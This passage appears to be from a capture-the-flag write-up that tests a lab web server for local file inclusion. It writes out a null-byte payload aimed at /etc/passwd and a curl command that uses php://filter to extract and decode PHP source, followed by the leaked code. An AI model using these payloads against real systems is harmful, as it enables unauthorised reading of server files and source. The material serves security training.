 

### LFI

The format of the url for the uploads page indicates the site is likely
doing something like having a main page, and that page calls
`include $_GET['op'] . '.php'` to bring in the other panes. That's
obviously a good place to look for LFI.

#### null terminator (fail)

If the theory above is correct, the site will append `.php` to whatever
input is given. First, we can try the %00 trick:
`http://10.10.10.80/index.php?op=/etc/passwd%00`



    Are you really trying /etc/passwd!? Did we Time Travel? This isn't the 90's



#### get php source



    root@kali# curl -sD - 10.10.10.80/?op=php://filter/convert.base64-encode/resource=home | head -44 | tail -1 | cut -d' ' -f1 | base64 -d > home.php
    root@kali# cat home.php
    <?php
    include 'common.php';
    ?>

        <!-- Page Content -->
        <div>

            <!-- Portfolio Item Heading -->
            <div>
                <div>
                    <h1>FBI Most Wanted: #fsociety
                        <small></small>
                    </h1>
                </div>
            </div>
            <!-- /.row -->

            <!-- Portfolio Item Row -->
            <div>
    ...



#### Find Note From Whiterose

There's an interesting bit in `index.php`:



    //Cookie
    if(!isset($_COOKIE['admin'])) {
      setcookie('admin', '0');
      $_COOKIE['admin'] = '0';
    }
